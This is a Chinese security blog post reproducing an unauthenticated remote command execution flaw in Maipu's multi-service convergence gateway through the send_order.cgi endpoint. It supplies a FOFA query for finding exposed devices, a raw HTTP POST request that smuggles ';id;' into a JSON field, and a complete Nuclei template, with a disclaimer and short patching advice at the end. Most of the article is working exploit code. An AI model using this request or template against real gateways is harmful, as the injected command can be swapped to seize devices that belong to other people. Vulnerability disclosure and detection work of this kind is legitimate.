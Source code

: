 #  漏洞复现 | 迈普多业务融合网关send_order.cgi远程命令执行漏洞【附poc】   
实战安全研究  实战安全研究   2024-07-01 21:22  
  
**免责声明**  
<table><tbody style="outline: 0px;visibility: visible;"><tr style="outline: 0px;visibility: visible;"><td valign="top" rowspan="5" colspan="1" style="outline: 0px;word-break: break-all;hyphens: auto;visibility: visible;"><strong style="outline: 0px;letter-spacing: 0.544px;color: rgb(255, 0, 0);font-size: 14px;visibility: visible;"><strong style="outline: 0px;color: rgb(62, 62, 62);letter-spacing: 0.544px;orphans: 4;text-align: left;visibility: visible;"><span style="outline: 0px;color: rgb(255, 0, 0);letter-spacing: 0.544px;visibility: visible;">本文仅用于技术学习和讨论。请勿使用本文所提供的内容及相关技术从事非法活动，由于传播、利用此文所提供的内容或工具而造成的任何直接或者间接的后果及损失，均由使用者本人负责，所产生的一切不良后果均与文章作者及本账号无关，本次测试仅供学习使用。如有内容争议或侵权，请及时私信我们！我们会立即删除并致歉。谢谢！</span></strong></strong></td></tr><tr style="outline: 0px;visibility: visible;"></tr><tr style="outline: 0px;visibility: visible;"></tr><tr style="outline: 0px;visibility: visible;"></tr><tr style="outline: 0px;visibility: visible;"></tr></tbody></table>  
**一、漏洞描述**  
  
迈普多业务融合网关是迈普通信技术股份有限公司自主研发的有线无线融合多业务网关，拥有有线无线网络一体配置、用户互联网网关、精准流控、上网行为管控、上网行为审计、网络安全防护、IPSec VPN分支互联、智能选路等强大功能，并支持对接迈普云平台，实现远程运维和集中管理。  
其接口  
send_order.cgi  
存在远程命令执行漏洞，  
未经身份验证  
的恶意攻击者  
可以任意命令，  
进而控制服务器系统  
。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/zBdps5HcBF3y7z9KicwdgakuyTu43lQr2B4jbUWUNn6U0SfPM53m4ibSRXfDld5pm9IbMyoK0EB8oLnzL0Zqciagg/640?wx_fmt=png&from=appmsg "")  
## 二、网络测绘  
```
fofa：
title="迈普多业务融合网关"
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/zBdps5HcBF3y7z9KicwdgakuyTu43lQr2T53vicSdu4vpOMb8AYJWvrt8YsBKPoTu8PEp4MoUm2YfDicShPpNhPDg/640?wx_fmt=png&from=appmsg "")  
## 三、漏洞复现  
  
测试执行id命令  
  
![](https://mmbiz.qpic.cn/mmbiz_png/zBdps5HcBF3y7z9KicwdgakuyTu43lQr2mKvQiaZlOFdFQjXGJvTPOpm1t3JIyeR4KZDt6O2WjRx08ruf2SC8r7Q/640?wx_fmt=png&from=appmsg "")  
  
**四、漏洞检测poc**  
```
POST /send_order.cgi?parameter=operation HTTP/1.1
Host: 0.0.0.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.9
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/125.0.0.0 Safari/537.36
Accept-Encoding: gzip, deflate
Content-Length: 40

{"opid":"1","name":";id;","type":"rest"}
```  
  
****  
**五、Nuclei 检测POC**  
```
id: Maipu_send_order_cgi_RCE

info:
  name: Maipu_send_order_cgi_RCE
  author: hamal
  severity: high
  description: 迈普多业务融合网关send_order.cgi远程命令执行漏洞
  reference:
    - https://
  tags: 微信公众号（实战安全研究）

http:
  - raw:
      - |-
        POST /send_order.cgi?parameter=operation HTTP/1.1
        Host: {{Hostname}}
        Accept: */*
        Accept-Language: zh-CN,zh;q=0.9
        User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/125.0.0.0 Safari/537.36
        Accept-Encoding: gzip, deflate
        Content-Length: 40

        {"opid":"1","name":";id;","type":"rest"}

    matchers-condition: and
    matchers:
      - type: word
        part: body
        words:
          - '"msg":"ok"'
      - type: status
        status:
          - 200

```  
  
关注公众号：  
**实战安全研究**  
  
公众号回复"**Nuclei**  
" 获取往期Nuclei漏洞POC  
  
**六、漏洞修复**  
  
1、建议联系厂商打补丁或升级版本。  
  
2、增加Web应用防火墙防护。  
  
3、  
关闭互联网暴露面或接口设置访问权限。  
  
